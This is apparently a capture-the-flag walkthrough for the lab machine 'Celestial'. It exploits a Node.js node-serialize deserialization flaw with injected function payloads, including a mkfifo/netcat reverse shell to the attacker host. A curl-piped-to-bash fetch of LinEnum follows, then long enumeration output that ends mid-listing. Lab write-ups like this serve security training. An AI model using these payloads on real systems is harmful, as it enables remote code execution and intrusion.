#### Celestial

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Node.js deserialization](#nodejs-deserialization)
- [Privilege Escalation](#privilege-escalation)
- [Using nodejsshell](#using-nodejsshell)

###### Attacker Info

```sh
root@kali:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.81/24 brd 10.0.0.255 scope global dynamic eth0
       valid_lft 604599sec preferred_lft 604599sec
    inet6 2601:5cc:c900:4024::ab95/128 scope global dynamic noprefixroute
       valid_lft 604597sec preferred_lft 604597sec
    inet6 2601:5cc:c900:4024:1925:dec2:b6c5:bb87/64 scope global temporary dynamic
       valid_lft 86392sec preferred_lft 85767sec
    inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919/64 scope global dynamic mngtmpaddr noprefixroute
       valid_lft 86392sec preferred_lft 86392sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.5/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1003/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::5526:b366:d709:72/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/celestail# nmap -sC -sV -oA celestail.nmap 10.10.10.85
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-01 12:52 EDT
Nmap scan report for 10.10.10.85
Host is up (0.13s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.67 seconds
root@kali:~/celestail#
```

###### Web Enumeration

```
http://10.10.10.85:3000
http://10.10.10.85:3000/
```




```sh
```
















###### Node.js deserialization

- [`Exploiting Node.js deserialization bug for Remote Code Execution`](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

```sh
root@kali:~/celestail# mkdir nodejs-serialize
root@kali:~/celestail# cd nodejs-serialize/
root@kali:~/celestail/nodejs-serialize#
```

- Install Nodejs

```sh
curl -sL https://deb.nodesource.com/setup_8.x | sudo -E bash -
sudo apt-get install -y nodejs
```

```sh
root@kali:~/celestail/nodejs-serialize# npm -v
5.6.0
root@kali:~/celestail/nodejs-serialize# node -v
v8.11.4
root@kali:~/celestail/nodejs-serialize#
```

```sh
root@kali:~/celestail/nodejs-serialize# npm install node-serialize
npm WARN notice [SECURITY] node-serialize has the following vulnerability: 1 critical. Go here for more details: https://nodesecurity.io/advisories?search=node-serialize&version=0.0.4 - Run `npm i npm@latest -g` to upgrade your npm version, and then `npm audit` to get more info.
npm WARN saveError ENOENT: no such file or directory, open '/root/celestail/nodejs-serialize/package.json'
npm notice created a lockfile as package-lock.json. You should commit this file.
npm WARN enoent ENOENT: no such file or directory, open '/root/celestail/nodejs-serialize/package.json'
npm WARN nodejs-serialize No description
npm WARN nodejs-serialize No repository field.
npm WARN nodejs-serialize No README data
npm WARN nodejs-serialize No license field.

+ node-serialize@0.0.4
added 1 package in 1.291s
root@kali:~/celestail/nodejs-serialize#
root@kali:~/celestail/nodejs-serialize# ls -l
total 8
drwxr-xr-x 3 root root 4096 Sep  1 13:29 node_modules
-rw-r--r-- 1 root root  273 Sep  1 13:29 package-lock.json
root@kali:~/celestail/nodejs-serialize#
```

`payload.js`

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

```sh
root@kali:~/celestail/nodejs-serialize# node payload.js
Serialized:
{"rce":"_$$ND_FUNC$$_function (){\n require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }"}
root@kali:~/celestail/nodejs-serialize#
```

```sh
root@kali:~/celestail/nodejs-serialize/node_modules/node-serialize# grep -iRn ND_FUN .
./lib/serialize.js:1:var FUNCFLAG = '_$$ND_FUNC$$_';
root@kali:~/celestail/nodejs-serialize/node_modules/node-serialize#
```

```sh
root@kali:~/celestail/nodejs-serialize/node_modules/node-serialize# vim ./lib/serialize.js
```



```
/FUNCFLAG
```

```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```







```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('ping -c 2 10.10.14.5', function(error, stdout, stderr) { console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```




```sh
root@kali:~/celestail/nodejs-serialize/node_modules/node-serialize# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:50:13.172507 IP 10.10.10.85 > kali: ICMP echo request, id 7520, seq 1, length 64
13:50:13.172635 IP kali > 10.10.10.85: ICMP echo reply, id 7520, seq 1, length 64
13:50:14.194952 IP 10.10.10.85 > kali: ICMP echo request, id 7520, seq 2, length 64
13:50:14.194991 IP kali > 10.10.10.85: ICMP echo reply, id 7520, seq 2, length 64
```

[`Reverse Shell Cheat Sheet`](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 1234 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```





```sh
root@kali:~/celestail# nc -nlvp 1234
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:51514.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$
```

```sh
$ find / -name user.txt 2>/dev/null
/home/sun/Documents/user.txt
$ cat /home/sun/Documents/user.txt
9a093cd22ce86b7f41db4116e80d0b0f
$
```

###### Privilege Escalation

```sh
root@kali:~/celestail# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-09-01 14:18:16--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.200.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.200.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47066 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]  45.96K  --.-KB/s    in 0.03s

2018-09-01 14:18:17 (1.51 MB/s) - ‘LinEnum.sh’ saved [47066/47066]

root@kali:~/celestail#
```

```sh
root@kali:~/celestail# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.85 - - [01/Sep/2018 14:19:25] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
$ curl http://10.10.14.5/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 47066  100 47066    0     0  37180      0  0:00:01  0:00:01 --:--:-- 37206

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.92

[-] Debug Info
[+] Thorough tests = Disabled (SUID/GUID checks will not be perfomed!)


Scan started at:
Sat Sep  1 14:17:31 EDT 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux sun 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 4.4.0-31-generic (buildd@lgw01-16) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2.1) ) #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.1 LTS"
NAME="Ubuntu"
VERSION="16.04.1 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.1 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
UBUNTU_CODENAME=xenial


[-] Hostname:
sun


### USER/GROUP ##########################################
[-] Current user/group info:
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest


[-] Who else is logged on:
 14:17:31 up 5 days, 18:12,  1 user,  load average: 1.21, 1.20, 1.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sun      tty7     :0               Sun20    5days 38:22   0.75s /sbin/upstart --user


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=107(uuidd) gid=111(uuidd) groups=111(uuidd)
uid=108(lightdm) gid=114(lightdm) groups=114(lightdm)
uid=109(whoopsie) gid=116(whoopsie) groups=116(whoopsie)
uid=110(avahi-autoipd) gid=119(avahi-autoipd) groups=119(avahi-autoipd)
uid=111(avahi) gid=120(avahi) groups=120(avahi)
uid=112(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=113(colord) gid=123(colord) groups=123(colord)
uid=114(speech-dispatcher) gid=29(audio) groups=29(audio)
uid=115(hplip) gid=7(lp) groups=7(lp)
uid=116(kernoops) gid=65534(nogroup) groups=65534(nogroup)
uid=117(pulse) gid=124(pulse) groups=124(pulse),29(audio)
uid=118(rtkit) gid=126(rtkit) groups=126(rtkit)
uid=119(saned) gid=127(saned) groups=127(saned),122(scanner)
uid=120(usbmux) gid=46(plugdev) groups=46(plugdev)
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
sun:x:1000:1000:sun,,,:/home/sun:/bin/bash


[-] Super user account(s):
root


[-] Accounts that have recently used sudo:
/home/sun/.sudo_as_admin_successful


[-] Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root root 4.0K Sep 19  2017 .
drwxr-xr-x 24 root root 4.0K Sep 19  2017 ..
drwxr-xr-x 21 sun  sun  4.0K Aug 26 20:04 sun


### ENVIRONMENTAL #######################################
[-] Environment information:
XDG_VTNR=7
XDG_SESSION_ID=c1
CLUTTER_IM_MODULE=xim
XDG_GREETER_DATA_DIR=/var/lib/lightdm-data/sun
GIO_LAUNCHED_DESKTOP_FILE_PID=3822
SESSION=ubuntu
GPG_AGENT_INFO=/home/sun/.gnupg/S.gpg-agent:0:1
SHELL=/bin/bash
XDG_MENU_PREFIX=gnome-
QT_LINUX_ACCESSIBILITY_ALWAYS_ON=1
UPSTART_SESSION=unix:abstract=/com/ubuntu/upstart-session/1000/3438
GNOME_KEYRING_CONTROL=
GTK_MODULES=gail:atk-bridge:unity-gtk-module
USER=sun
QT_ACCESSIBILITY=1
DESKTOP_AUTOSTART_ID=103be07fc2f650c6ec153532829788494700000036820001
XDG_SESSION_PATH=/org/freedesktop/DisplayManager/Session0
XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0
SSH_AUTH_SOCK=/run/user/1000/keyring/ssh
SESSION_MANAGER=local/sun:@/tmp/.ICE-unix/3682,unix/sun:/tmp/.ICE-unix/3682
DEFAULTS_PATH=/usr/share/gconf/ubuntu.default.path
GIO_LAUNCHED_DESKTOP_FILE=/home/sun/.config/autostart/nodejs.desktop
XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/usr/share/upstart/xdg:/etc/xdg
PATH=/home/sun/bin:/home/sun/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
DESKTOP_SESSION=ubuntu
QT_IM_MODULE=ibus
QT_QPA_PLATFORMTHEME=appmenu-qt5
JOB=dbus
PWD=/home/sun
XDG_SESSION_TYPE=x11
XMODIFIERS=@im=ibus
LANG=en_US.UTF-8
GNOME_KEYRING_PID=
GDM_LANG=en_US
MANDATORY_PATH=/usr/share/gconf/ubuntu.mandatory.path
IM_CONFIG_PHASE=1
COMPIZ_CONFIG_PROFILE=ubuntu
GDMSESSION=ubuntu
GTK2_MODULES=overlay-scrollbar
SESSIONTYPE=gnome-session
HOME=/home/sun
SHLVL=1
XDG_SEAT=seat0
LANGUAGE=en_US
GNOME_DESKTOP_SESSION_ID=this-is-deprecated
LIBGL_ALWAYS_SOFTWARE=1
XDG_SESSION_DESKTOP=ubuntu
LOGNAME=sun
XDG_DATA_DIRS=/usr/share/ubuntu:/usr/share/gnome:/usr/local/share/:/usr/share/:/var/lib/snapd/desktop
DBUS_SESSION_BUS_ADDRESS=unix:abstract=/tmp/dbus-RmzF56JNG9
QT4_IM_MODULE=xim
INSTANCE=
DISPLAY=:0
XDG_RUNTIME_DIR=/run/user/1000
XDG_CURRENT_DESKTOP=Unity
GTK_IM_MODULE=ibus
XAUTHORITY=/home/sun/.Xauthority
_=/usr/bin/env


[-] Path information:
/home/sun/bin:/home/sun/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash


[-] Current umask value:
0002
u=rwx,g=rwx,o=rx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 28
drwxr-xr-x   2 root root  4096 Jul 19  2016 .
drwxr-xr-x 133 root root 12288 Mar  4 15:17 ..
-rw-r--r--   1 root root   244 Dec 28  2014 anacron
-rw-r--r--   1 root root   102 Apr  5  2016 .placeholder
-rw-r--r--   1 root root   190 Sep 19  2017 popularity-contest

/etc/cron.daily:
total 72
drwxr-xr-x   2 root root  4096 Jul 19  2016 .
drwxr-xr-x 133 root root 12288 Mar  4 15:17 ..
-rwxr-xr-x   1 root root   311 Dec 28  2014 0anacron
-rwxr-xr-x   1 root root   376 Mar 31  2016 apport
-rwxr-xr-x   1 root root   920 Apr  5  2016 apt-compat
-rwxr-xr-x   1 root root   355 May 22  2012 bsdmainutils
-rwxr-xr-x   1 root root   384 Oct  5  2014 cracklib-runtime
-rwxr-xr-x   1 root root  1597 Nov 26  2015 dpkg
-rwxr-xr-x   1 root root   372 May  6  2015 logrotate
-rwxr-xr-x   1 root root  1293 Nov  6  2015 man-db
-rwxr-xr-x   1 root root   435 Nov 18  2014 mlocate
-rwxr-xr-x   1 root root   249 Nov 12  2015 passwd
-rw-r--r--   1 root root   102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root  3449 Feb 26  2016 popularity-contest
-rwxr-xr-x   1 root root   214 May 24  2016 update-notifier-common
-rwxr-xr-x   1 root root  1046 May 19  2016 upstart

/etc/cron.hourly:
total 20
drwxr-xr-x   2 root root  4096 Jul 19  2016 .
drwxr-xr-x 133 root root 12288 Mar  4 15:17 ..
-rw-r--r--   1 root root   102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 24
drwxr-xr-x   2 root root  4096 Jul 19  2016 .
drwxr-xr-x 133 root root 12288 Mar  4 15:17 ..
-rwxr-xr-x   1 root root   313 Dec 28  2014 0anacron
-rw-r--r--   1 root root   102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 36
drwxr-xr-x   2 root root  4096 Jul 19  2016 .
drwxr-xr-x 133 root root 12288 Mar  4 15:17 ..
-rwxr-xr-x   1 root root   312 Dec 28  2014 0anacron
-rwxr-xr-x   1 root root    86 Apr 13  2016 fstrim
-rwxr-xr-x   1 root root   771 Nov  6  2015 man-db
-rw-r--r--   1 root root   102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root   211 May 24  2016 update-notifier-common


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


[-] Anacron jobs and associated file permissions:
-rw-r--r-- 1 root root 401 Dec 28  2014 /etc/anacrontab
# /etc/anacrontab: configuration file for anacron

# See anacron(8) and anacrontab(5) for details.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

# These replace cron's entries
1	5	cron.daily	run-parts --report /etc/cron.daily
7	10	cron.weekly	run-parts --report /etc/cron.weekly
@monthly	15	cron.monthly	run-parts --report /etc/cron.monthly


[-] When were jobs last executed (/var/spool/anacron contents):
total 20
drwxr-xr-x 2 root root 4096 Sep 19  2017 .
drwxr-xr-x 7 root root 4096 Jul 19  2016 ..
-rw------- 1 root root    9 Sep  1 07:35 cron.daily
-rw------- 1 root root    9 Aug 26 20:19 cron.monthly
-rw------- 1 root root    9 Aug 26 20:14 cron.weekly


[-] Jobs held by all users:
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/30 * * * * nodejs /home/sun/server.js >/dev/null 2>&1


### NETWORKING  ##########################################
[-] Network and IP info:
ens33     Link encap:Ethernet  HWaddr 00:50:56:8f:82:3b
          inet addr:10.10.10.85  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:fe8f:823b/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:fe8f:823b/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:583654 errors:0 dropped:149 overruns:0 frame:0
          TX packets:479608 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:48756245 (48.7 MB)  TX bytes:67731373 (67.7 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:3161268292 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3161268292 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:158136216912 (158.1 GB)  TX bytes:158136216912 (158.1 GB)


[-] ARP history:
? (10.10.10.2) at 00:50:56:b9:92:97 [ether] on ens33


[-] Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens33


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      1 10.10.10.85:32794       10.10.14.15:80          SYN_SENT    7670/curl
tcp        0      1 10.10.10.85:35668       10.10.15.229:4444       SYN_SENT    3822/nodejs
tcp        0      1 10.10.10.85:54752       10.10.14.6:5555         SYN_SENT    3822/nodejs
tcp        0      1 10.10.10.85:54750       10.10.14.6:5555         SYN_SENT    3822/nodejs
tcp        0   2562 10.10.10.85:37706       10.10.14.5:1234         ESTABLISHED 7680/nc
tcp        0      1 10.10.10.85:46434       10.10.14.15:80          SYN_SENT    7660/curl
tcp6       0      0 :::3000                 :::*                    LISTEN      3822/nodejs
tcp6       0      1 10.10.10.85:3000        10.10.14.5:44814        LAST_ACK    -
tcp6       0      1 10.10.10.85:3000        10.10.14.5:44812        LAST_ACK    -
tcp6       0      1 10.10.10.85:3000        10.10.14.5:44810        LAST_ACK    -
tcp6       0      0 10.10.10.85:3000        10.10.14.5:43004        TIME_WAIT   -
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44828        SYN_RECV    -
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44838        SYN_RECV    -
tcp6       0      1 10.10.10.85:3000        10.10.14.5:44818        LAST_ACK    -
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44020        TIME_WAIT   -
tcp6       0    391 10.10.10.85:3000        10.10.14.5:44824        ESTABLISHED 3822/nodejs
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44826        SYN_RECV    -
tcp6       0      1 10.10.10.85:3000        10.10.14.5:44816        LAST_ACK    -
tcp6       0      1 10.10.10.85:3000        10.10.14.5:44808        LAST_ACK    -
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44834        SYN_RECV    -
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44836        SYN_RECV    -
tcp6       0      1 10.10.10.85:3000        10.10.14.5:44806        LAST_ACK    -
tcp6       0    393 10.10.10.85:3000        10.10.14.5:44820        ESTABLISHED 3822/nodejs
tcp6       0    393 10.10.10.85:3000        10.10.14.5:44822        ESTABLISHED 3822/nodejs
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44832        SYN_RECV    -
tcp6       0      0 10.10.10.85:3000        10.10.14.5:44830        SYN_RECV    -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 0.0.0.0:35340           0.0.0.0:*                           -
udp        0      0 0.0.0.0:631             0.0.0.0:*                           -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -
udp6       0      0 :::49426                :::*                                -
udp6       0      0 :::5353                 :::*                                -


### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.3 185400  3928 ?        Ss   Aug26   0:19 /sbin/init splash
root         2  0.0  0.0      0     0 ?        S    Aug26   0:00 [kthreadd]
root         3  0.1  0.0      0     0 ?        S    Aug26  12:02 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   Aug26   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    Aug26   4:20 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    Aug26   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    Aug26   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    Aug26   0:02 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    Aug26   0:00 [kdevtmpfs]
root        12  0.0  0.0      0     0 ?        S<   Aug26   0:00 [netns]
root        13  0.0  0.0      0     0 ?        S<   Aug26   0:00 [perf]
root        14  0.0  0.0      0     0 ?        S    Aug26   0:03 [khungtaskd]
root        15  0.0  0.0      0     0 ?        S<   Aug26   0:00 [writeback]
root        16  0.0  0.0      0     0 ?        SN   Aug26   0:00 [ksmd]
root        17  0.0  0.0      0     0 ?        SN   Aug26   1:11 [khugepaged]
root        18  0.0  0.0      0     0 ?        S<   Aug26   0:00 [crypto]
root        19  0.0  0.0      0     0 ?        S<   Aug26   0:00 [kintegrityd]
root        20  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        21  0.0  0.0      0     0 ?        S<   Aug26   0:00 [kblockd]
root        22  0.0  0.0      0     0 ?        S<   Aug26   0:00 [ata_sff]
root        23  0.0  0.0      0     0 ?        S<   Aug26   0:00 [md]
root        24  0.0  0.0      0     0 ?        S<   Aug26   0:00 [devfreq_wq]
root        28  0.0  0.0      0     0 ?        S    Aug26   0:01 [kswapd0]
root        29  0.0  0.0      0     0 ?        S<   Aug26   0:00 [vmstat]
root        30  0.0  0.0      0     0 ?        S    Aug26   0:00 [fsnotify_mark]
